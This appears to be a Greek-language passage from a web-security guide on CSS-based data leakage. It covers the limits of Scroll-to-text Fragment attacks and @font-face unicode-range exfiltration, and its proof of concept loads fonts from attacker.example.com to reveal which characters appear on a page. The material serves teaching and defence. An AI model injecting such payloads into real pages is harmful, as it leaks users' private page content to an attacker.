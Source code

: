 1. **Περιορισμένη Αντιστοίχιση STTF**: Το Scroll-to-text Fragment (STTF) σχεδιάστηκε για να αντιστοιχίζει μόνο λέξεις ή προτάσεις, περιορίζοντας έτσι τη δυνατότητά του να διαρρεύσει αυθαίρετα μυστικά ή τεκμήρια.
2. **Περιορισμός σε Πλαίσια Περιήγησης Κορυφαίου Επιπέδου**: Το STTF λειτουργεί μόνο σε πλαίσια περιήγησης κορυφαίου επιπέδου και δεν λειτουργεί εντός iframes, κάτι που καθιστά οποιαδήποτε προσπάθεια εκμετάλλευσης πιο εμφανή στον χρήστη.
3. **Ανάγκη Ενεργοποίησης Χρήστη**: Το STTF απαιτεί μια κίνηση ενεργοποίησης χρήστη για να λειτουργήσει, πράγμα που σημαίνει ότι οι εκμεταλλεύσεις είναι εφικτές μόνο μέσω πλοήγησης που ξεκινά ο χρήστης. Αυτή η απαίτηση μειώνει σημαντικά τον κίνδυνο των επιθέσεων να είναι αυτοματοποιημένες χωρίς τη συμμετοχή του χρήστη. Ωστόσο, ο συγγραφέας του blog αναφέρει συγκεκριμένες συνθήκες και παρακάμψεις (π.χ., κοινωνική μηχανική, αλληλεπίδραση με διαδεδομένες επεκτάσεις προγραμματιστικού περιβάλλοντος) που μπορεί να διευκολύνουν την αυτοματοποίηση της επίθεσης.

Η ενημέρωση για αυτούς τους μηχανισμούς και τις πιθανές ευπάθειες είναι καίρια για τη διατήρηση της ασφάλειας του web και την προστασία από τέτοιες εκμεταλλευτικές τακτικές.

Για περισσότερες πληροφορίες ελέγξτε την αρχική αναφορά: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

Μπορείτε να ελέγξετε ένα [**εκμετάλλευση χρησιμοποιώντας αυτήν την τεχνική για ένα CTF εδώ**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

Μπορείτε να καθορίσετε **εξωτερικά γραφήματα για συγκεκριμένες τιμές unicode** που θα συγκεντρωθούν μόνο αν αυτές οι τιμές unicode είναι παρόντες στη σελίδα. Για παράδειγμα:

```html
<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>

<p id="sensitive-information">AB</p>htm
```
